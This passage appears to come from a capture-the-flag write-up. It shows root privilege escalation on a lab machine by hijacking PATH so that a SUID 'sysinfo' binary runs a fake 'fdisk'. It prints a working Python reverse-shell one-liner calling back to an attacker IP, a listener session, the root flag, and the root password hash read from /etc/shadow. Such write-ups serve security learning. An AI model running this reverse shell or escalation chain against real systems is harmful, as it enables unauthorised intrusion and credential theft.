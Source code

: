 ```
/bin/ping
```

`/bin/sysinfo` looks unusual:

```
theseus@ubuntu:~$ ls -lh /bin/sysinfo
-rwsr-x--- 1 root users 22K Oct 21  2019 /bin/sysinfo
```

## Privilege Escalation : theseus to root

If we run `sysinfo` there are 4 sections that seems to match so other system
commands:

- Hardware Info: `lshw -short`
- Disk Info: `fdisk -l`
- CPU Info: `cat /proc/cpuinfo`
- MEM Usage: `free -h`

So basically what we have to do is change the `PATH` env var to force the SUID
`sysinfo` to call an attacker controlled binary instead of the system tools.

```
$ mkdir /tmp/cyfun
$ cd /tmp/cyfun
$ touch fdisk
$ vi fdisk
$ chmod +x fdisk
$ export PATH=/tmp/cyfun:$PATH
$ echo $PATH
/tmp/cyfun:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
$ which fdisk
/tmp/cyfun/fdisk
```

Here is the reverse shell I put in `fdisk`:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.32",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

The we just have to run `sysinfo` to get the root shell:

```
$ pwncat -l 8888 -v
# pwd
/tmp/cyfun
# cd /root
# cat root.txt
8b6a4fda49b7bcfe0ed6b1925d45bd96
# cat /etc/shadow | grep root
root:$6$P9JXkqrh$tQfL.bHaQQmi7tBxwKp2wdSTB0D19Q.PHM.8tdLanqBEs70cKzul4SEY0PqfbxVkUv7bR5wrKYXJlb0p69c42.:18184:0:99999:7:::
```

[nmap]:https://nmap.org/
[sqlmap]:https://sqlmap.org
:
[weevely]:https://github.com/epinna/weevely3
[msf]:https://www.metasploit.com/
[pwncat]:https://pwncat.org/
